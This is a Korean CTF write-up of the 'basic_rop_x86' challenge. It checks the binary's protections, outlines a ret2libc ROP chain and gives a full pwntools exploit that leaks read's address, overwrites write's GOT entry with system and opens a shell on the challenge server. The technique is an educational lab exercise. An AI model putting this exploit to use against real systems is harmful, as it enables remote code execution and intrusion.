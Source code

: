 # basic_rop_x86

일단 문제 파일에 적용된 보호 기법을 확인한다.   
<br/>

![](1.PNG)   
32bit 바이너리 파일이며 보호기법은 Partial RELRO와 NX만 걸려있는 것을 알 수 있다.   
<br/>


exploit을 위한 과정은 다음과 같다.
1. ROP gadget을 구한다.
2. read 함수의 실제 주소를 구한다.
3. read 함수의 주소를 가지고 libc의 주소를 구한다.
4. libc 주소와 system 함수의 offset을 이용하여 system 함수의 주소를 계산한다.
5. .bss영역에 "/bin/sh"를 입력한다.
6. write 함수의 주소를 system 함수의 주소로 덮어씌운다.
7. system 함수로 바뀐 write 함수를 실행시킨다.   


<br/>

![](2.PNG)   
ROP gadget을 구해주고 다음과 같이 explit 코드를 작성해준다.   

```
from pwn import *

p = remote("host1.dreamhack.games", 9808)

e = ELF('./basic_rop_x86')
libc = ELF('./libc.so.6')

read_plt = e.plt['read']
read_got = e.got['read']

write_plt = e.plt['write']
write_got = e.got['write']

pppr = 0x8048689
bss = 0x0804a040

payload = ""
payload += 'A'*72
payload += p32(write_plt)
payload += p32(pppr)
payload += p32(1)
payload += p32(read_got)
payload += p32(4)

payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0)
payload += p32(bss)
payload += p32(8)

payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0)
payload += p32(write_got)
payload += p32(4)

payload += p32(write_plt)
payload += "AAAA"
payload += p32(bss)



p.send(payload)

sleep(0.3)

read_addr = u32(p.recv()[-4:])
libc_addr = read_addr - libc.symbols['read']
system_addr = libc_addr + libc.symbols['system']

p.send("/bin/sh\x00")

p.send(p32(system_addr))


p.interactive()
```
